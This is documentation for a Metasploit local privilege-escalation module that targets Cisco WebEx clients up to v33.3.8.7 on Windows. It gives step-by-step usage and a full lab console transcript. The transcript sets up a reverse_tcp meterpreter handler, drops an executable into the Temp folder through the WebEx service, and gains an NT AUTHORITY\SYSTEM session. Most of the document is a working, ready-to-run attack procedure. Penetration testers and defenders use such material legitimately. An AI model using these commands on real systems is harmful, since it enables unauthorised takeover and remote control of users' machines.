 ## Description

  This module gets an elevated session with System privileges by exploiting a remote code execution vulnerability found
  in Cisco's WebEx client software for versions below v33.6.0.655.

## Vulnerable Application

  Cisco WebEx v33.3.8.7 and below

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session
  4. Do: ```use exploit/windows/local/webexec```
  5. Do: ```set SESSION <session>```
  6. Do: ```run```
  7. You should get an elevated session.

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```

  msf > use multi/handler
  msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.136:49161) at 2018-10-24 09:41:47 -0500

  meterpreter > getuid
  Server username: WIN-MGMN7ND70I1\a_user
  meterpreter > background
  [*] Backgrounding session 1...
  msf exploit(multi/handler) > use exploit/windows/local/webexec 
  msf exploit(windows/local/webexec) > set session 1
  session => 1
  msf exploit(windows/local/webexec) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/local/webexec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(windows/local/webexec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Checking service exists...
  [*] Writing 73802 bytes to %SystemRoot%\Temp\Ak4U78kG.exe...
  [*] Launching service...
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.136:49162) at 2018-10-24 09:42:35 -0500
  [*] Service started...

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 

  ```
